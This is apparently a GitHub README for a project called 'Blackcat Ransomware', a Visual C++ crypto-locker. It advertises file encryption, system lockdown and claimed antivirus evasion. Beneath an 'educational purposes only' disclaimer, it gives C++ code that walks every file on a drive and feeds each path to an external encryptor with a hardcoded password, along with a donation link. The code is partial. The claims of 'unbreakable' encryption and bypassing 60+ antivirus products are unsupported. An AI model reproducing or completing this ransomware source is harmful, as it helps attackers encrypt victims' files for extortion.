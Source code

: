 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Blackcat Ransomware

Blackcat Ransomware is open source Crypto-Locker. Blackcat Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

## Features

1. Strong AES Encryption. (Unbreakable)
2. LockDown System Functionailty.
3. Multi-Thread Encryption.
4. Undetectable (60+ World Most Popular AntiVirus Bypass).
5. Powerful Web Admin Interface

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream out_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("C:\\Ajay\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			out_file << dir->path() << "\n";
		}
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

# Currently in Development....Happy Hacking:)

## Donate
If you appreciate that, please consider donating to the Developer.

[![Donate](https://cdn.pbrd.co/images/HyQFKkP.png)](https://www.paypal.me/ajayrandhawa) 

